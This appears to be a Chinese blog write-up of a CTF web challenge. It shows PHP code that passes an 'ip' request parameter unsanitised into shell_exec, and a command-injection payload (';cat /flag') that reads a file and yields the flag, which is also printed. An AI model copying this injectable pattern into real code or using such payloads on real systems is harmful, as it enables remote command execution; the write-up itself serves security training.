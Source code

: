 ```yaml
---
title: web02
date: 2024-04-07 14:32:17
updated: 2024-11-15 21:49:39
categories:
  - 网络安全
  - CTF竞赛
  - 蓝桥杯
  - Web
tags:
  - 网络安全
  - CTF
  - Web
permalink: /posts/web02/
---
```

## 题目描述
try your best to find the flag

## 解题
打开容器，得到代码：
```php
 <?php
if( isset( $_REQUEST['ip']) ) {
    $target = $_REQUEST[ 'ip' ];
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
    echo  "<pre>{$cmd}</pre>";
}
show_source(__FILE__);

?> 
```

命令执行漏洞
通过传入ip参数进行命令执行，而`echo "<pre>{$cmd}</pre>"`；将结果进行回显 。

构造payload，CTF中有关文件的一般在/flag下：
```txt
?ip=;cat /flag
```
![](web02/image-20240308210015207.png)


得到`flag{6d9a987f-1c3c-4315-847d-9982db4f807c}` 
